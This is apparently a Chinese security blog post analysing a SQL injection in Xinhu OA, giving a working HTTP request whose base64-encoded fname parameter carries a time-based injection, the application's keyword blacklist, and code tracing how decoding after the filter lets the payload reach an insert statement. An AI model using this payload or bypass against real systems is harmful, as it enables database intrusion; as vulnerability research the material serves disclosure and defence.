







# 信呼 OA 最新 sql 注入分析-先知社区

> **来源**: https://xz.aliyun.com/news/16444  
> **文章ID**: 16444

---

# 信呼 OA 最新 sql 注入分析

## 前言

最近看到了 xinhuOA 又出了一个 SQL 注入的漏洞，但是其 OA 是对我们的 sql 是有防护的，但是任然可以进行 sql 注入，大概看了一下绕过逻辑，觉得在绕过 waf 情况下，逻辑绕过还是很强的

## 环境搭建

下载源码  
<https://github.com/rainrocka/xinhu>  
然后直接使用 PHPstudy 搭建就 ok

一开始的账号密码是  
admin  
123456  
然后进去之后需要强制修改密码，防止弱密码

来到  


这个界面就是搭建成功

## 漏洞复现

payload 如下

```
GET /api.php?a=getmfilv&m=upload|api&d=task&fileid=1&fname=MScgYW5kIHNsZWVwKDYpIw== HTTP/1.1
Host: xinhu:5348
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://xinhu:5348/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=920tmlvqknnacst79p9c5d3h66; deviceid=1735887216564; xinhu_mo_adminid=oo0ob0vv0bdd0bhb0kr0bhh0bbk0oo0gb0rd0bhx0oo0ro0oe0gr06; xinhu_ca_adminuser=admin; xinhu_ca_rempass=1; xinhu_ca_adminpass=oo0rx0oe0bdd0or0kr0rg0gh06
Connection: keep-alive

```

其中 fname 参数是关键，解码后内容如下



然后我们发送 payload

  
可以发现 sql 语句是执行了的

## 漏洞分析

我们可以看到基础的路由规则

```
/**
*   api的入口地址请求访问，访问方法：http://我的域名/api.php?m=index&a=方法
*   主页：http://www.rockoa.com/
*   软件：信呼
*   作者：雨中磐石(rainrock)
*/

```

是根据 api 调用来的

首先就是根据

```
a=getmfilv&m=upload|api&d=task&fileid=1&fname=MScgYW5kIHNsZWVwKDYpIw==

```

是什么意思

然后找到对应的

```
include_once('include/View.php');

```

View.php

```
<?php
if(!isset($ajaxbool))$ajaxbool = $rock->jm->gettoken('ajaxbool', 'false');
$ajaxbool   = $rock->get('ajaxbool', $ajaxbool);
$p          = PROJECT;
if(!isset($m))$m='index';
if(!isset($a))$a='default';
if(!isset($d))$d='';
$m          = $rock->get('m', $m);
$a          = $rock->get('a', $a);
$d          = $rock->get('d', $d);

define('M', $m);
define('A', $a);
define('D', $d);
define('P', $p);

$_m         = $m;
if($rock->contain($m, '|')){
    $_mas   = explode('|', $m);
    $m      = $_mas[0];
    $_m     = $_mas[1];
}
include_once($rock->strformat('?0/?1/?1Action.php',ROOT_PATH, $p));
$rand       = date('YmdHis').rand(1000,9999);
if(substr($d,-1)!='/' && $d!='')$d.='/';
$errormsg   = '';
$methodbool = true;
$actpath    = $rock->strformat('?0/?1/?2?3',ROOT_PATH, $p, $d, $_m);
define('ACTPATH', $actpath);
$actfile    = $rock->strformat('?0/?1Action.php',$actpath, $m);
$actfile1   = $rock->strformat('?0/?1Action.php',$actpath, $_m);
$actbstr    = null;
if(file_exists($actfile1))include_once($actfile1);
if(file_exists($actfile)){
    include_once($actfile);
    $clsname    = ''.$m.'ClassAction';
    $xhrock     = new $clsname();
    $actname    = ''.$a.'Action';
    if($ajaxbool == 'true')$actname = ''.$a.'Ajax';
    if(method_exists($xhrock, $actname)){
        $xhrock->beforeAction();
        $actbstr = $xhrock->$actname();
        $xhrock->bodyMessage = $actbstr;
        if(is_string($actbstr)){echo $actbstr;$xhrock->display=false;}
        if(is_array($actbstr)){echo json_encode($actbstr);$xhrock->display=false;}
    }else{
        $methodbool = false;
        if($ajaxbool == 'false')echo ''.$actname.' not found;';
    }
    $xhrock->afterAction();
}else{
    echo 'actionfile not exists;';
    $xhrock     = new Action();
}

$_showbool = false;
if($xhrock->display && ($ajaxbool == 'html' || $ajaxbool == 'false')){
    $xhrock->smartydata['p']    = $p;
    $xhrock->smartydata['a']    = $a;
    $xhrock->smartydata['m']    = $m;
    $xhrock->smartydata['d']    = $d;
    $xhrock->smartydata['rand'] = $rand;
    $xhrock->smartydata['qom']  = QOM;
    $xhrock->smartydata['path'] = PATH;
    $xhrock->smartydata['sysurl']= SYSURL;
    $temppath                   = ''.ROOT_PATH.'/'.$p.'/';
    $tplpaths                   = ''.$temppath.''.$d.''.$m.'/';
    $tplname                    = 'tpl_'.$m.'';
    if($a!='default')$tplname  .= '_'.$a.'';
    $tplname                   .= '.'.$xhrock->tpldom.'';
    $mpathname                  = $tplpaths.$tplname;
    if($xhrock->displayfile!='' && file_exists($xhrock->displayfile))$mpathname = $xhrock->displayfile;
    if(!file_exists($mpathname) || !$methodbool){
        if(!$methodbool){
            $errormsg   = 'in ('.$m.') not found Method('.$a.');';
        }else{
            $errormsg   = ''.$tplname.' not exists;';
        }
        echo $errormsg;
    }else{
        $_showbool = true;
    }
}
if($xhrock->display && ($ajaxbool == 'html' || $xhrock->tpltype=='html' || $ajaxbool == 'false') && $_showbool){
    $xhrock->setHtmlData();
    $da = $xhrock->smartydata;
    foreach($xhrock->assigndata as $_k=>$_v)$$_k=$_v;
    include_once($mpathname);
    $_showbool = false;
}

```

这么长的代码交给聪明的 gpt



那我们定位到 uploadAction.php 的 getmfilvAction 方法

```
public function getmfilvAction()
{
    $fileid = (int)$this->get('fileid','0');
    $frs    = m('file')->getone($fileid);
    if(!$frs)return returnerror('不存在');

    $lujing = $frs['filepathout'];
    if(isempt($lujing)){
        $lujing = $frs['filepath'];
        if(substr($lujing,0,4)!='http' && !file_exists($lujing))return returnerror('文件不存在了');
    }
    $fileext = $frs['fileext'];

    $fname = $this->jm->base64decode($this->get('fname'));
    $fname = (isempt($fname)) ? $frs['filename'] : ''.$fname.'.'.$fileext.'';

    $filepath = ''.UPDIR.'/'.date('Y-m').'/'.date('d').'_rocktpl'.rand(1000,9999).'_'.$fileid.'.'.$fileext.'';
    $this->rock->createtxt($filepath, file_get_contents($lujing));

    $uarr = array(
        'filename' => $fname,
        'fileext' => $fileext,
        'filepath' => $filepath,
        'filesize' => filesize($filepath),
        'filesizecn' => $this->rock->formatsize(filesize($filepath)),
        'optid'     => $this->adminid,
        'optname'   => $this->adminname,
        'adddt'     => $this->rock->now,
        'ip'        => $this->rock->ip,
        'web'       => $this->rock->web,
    );
    $uarr['id'] = m('file')->insert($uarr);

    return returnsuccess($uarr);
}

```

其中和我们 sql 相关的是在

```
$uarr['id'] = m('file')->insert($uarr);

```

首先我们看能够控制的参数是哪些  
fileid 和 fname

但是

```
$fileid = (int)$this->get('fileid','0');

```

被 int 了

然后对 sql 是有防护的，如果是在 insert 防护的，那其实是大概率不能绕过的，这里是在 get 防护的，也就是我们获取参数的时候

跟着调用栈

```
rockClass.php:111, rockClass->get()
Action.php:152, uploadClassAction->get()
uploadAction.php:499, uploadClassAction->getmfilvAction()
View.php:42, include_once()
api.php:39, {main}()

```

在 rockClass.php

```
public function get($name,$dev='', $lx=0)
{
    $val=$dev;
    if(isset($_GET[$name]))$val=$_GET[$name];
    if($this->isempt($val))$val=$dev;
    return $this->jmuncode($val, $lx, $name);
}

```

我们传入的值会进入 jmuncode 方法



然后进入 jmuncode

```
public function jmuncode($s, $lx=0, $na='')
{
    $jmbo = false;$s = (string)$s;
    if($lx==3)$jmbo = $this->isjm($s);
    if(substr($s, 0, 7)=='rockjm_' || $lx == 1 || $jmbo){
        $s = str_replace('rockjm_', '', $s);
        $s = $this->jm->uncrypt($s);
        if($lx==1){
            $jmbo = $this->isjm($s);
            if($jmbo)$s = $this->jm->uncrypt($s);
        }
    }
    if(substr($s, 0, 7)=='basejm_' || $lx==5){
        $s = str_replace('basejm_', '', $s);
        $s = $this->jm->base64decode($s);
    }
    $s=str_replace("'", '&#39', $s);
    $s=str_replace('%20', '', $s);
    if($lx==2)$s=str_replace(array('{','}'), array('[H1]','[H2]'), $s);
    $str = strtolower($s);
    foreach($this->lvlaras as $v1)if($this->contain($str, $v1)){
        $this->debug(''.$na.'《'.$s.'》error:包含非法字符《'.$v1.'》','params_err');
        $s = $this->lvlarrep($str, $v1);
        $str = $s;
    }
    $cslv = array('m','a','p','d','ip','web','host','ajaxbool','token','adminid');
    if(in_array($na, $cslv))$s = $this->xssrepstr($s);
    return $this->reteistrs($s);
}

```

其中会在 lvlaras 作为名单循环检测，我们可以看到构造方法

```
public function __construct()
{       
    $this->ip       = $this->getclientip();
    $this->host     = isset($_SERVER['HTTP_HOST'])      ? $_SERVER['HTTP_HOST']     : '' ;
    if($this->host && substr($this->host,-3)==':80')$this->host = str_replace(':80', '', $this->host);
    $this->url      = '';
    $this->isqywx   = false;
    $this->win      = php_uname();
    $this->HTTPweb  = isset($_SERVER['HTTP_USER_AGENT'])? $_SERVER['HTTP_USER_AGENT']   : '' ;
    $this->web      = $this->getbrowser();
    $this->unarr    = explode(',','1,2');
    $this->now      = $this->now();
    $this->date     = date('Y-m-d');
    $this->lvlaras  = explode(',','select ,
    alter table,delete ,drop ,update ,insert into,load_file,/*,*/,union,<script,</script,sleep(,outfile,eval(,user(,phpinfo(),select*,union%20,sleep%20,select%20,delete%20,drop%20,and%20');
    $this->lvlaraa  = explode(',','select,alter,delete,drop,update,/*,*/,insert,from,time_so_sec,convert,from_unixtime,unix_timestamp,curtime,time_format,union,concat,information_schema,group_concat,length,load_file,outfile,database,system_user,current_user,user(),found_rows,declare,master,exec,(),select*from,select*');
    $this->lvlarab  = array();
    foreach($this->lvlaraa as $_i)$this->lvlarab[]='';
}

```

其中是一些 sql 黑名单，但是为什么我们能够绕过呢

很简单



因为我们输入的 base64 的字符，当然检测不出来，而带入 sql 语句的时候



可以看到是 base64 解码后的

  
对应着我们解码的逻辑，所以可以说是一个逻辑漏洞了

然后我们看看对 sql 的语句处理

```
mysql.php:545, mysqliClass->record()
Model.php:93, fileClassModel->record()
Model.php:104, fileClassModel->insert()
uploadAction.php:528, uploadClassAction->getmfilvAction()
View.php:42, include_once()
api.php:39, {main}()

```

一路跟进

```
public function record($table,$array,$where='')
{
    $addbool    = true;
    if(!$this->isempt($where))$addbool=false;
    $cont       = '';
    if(is_array($array)){
        foreach($array as $key=>$val){
            $cont.=",`$key`=".$this->toaddval($val)."";
        }
        $cont   = substr($cont,1);
    }else{
        $cont   = $array;
    }
    $table = $this->gettables($table);
    if($addbool){
        $sql="insert into $table set $cont";
    }else{
        $where = $this->getwhere($where);
        $sql="update $table set $cont where $where";
    }
    return $this->tranbegin($sql);
}

```

  
最后得到的 sql 语句

```
insert into `xinhu_file` set `filename`='1' and sleep(6)#.png',`fileext`='png',`filepath`='upload/2025-01/03_rocktpl5508_1.png',`filesize`='3970',`filesizecn`='3.88 KB',`optid`='1',`optname`='绠＄悊鍛�',`adddt`='2025-01-03 16:51:57',`ip`='127.0.0.1',`web`='Chrome'

```

所以导致了 sql 注入

参考<https://forum.butian.net/article/613>
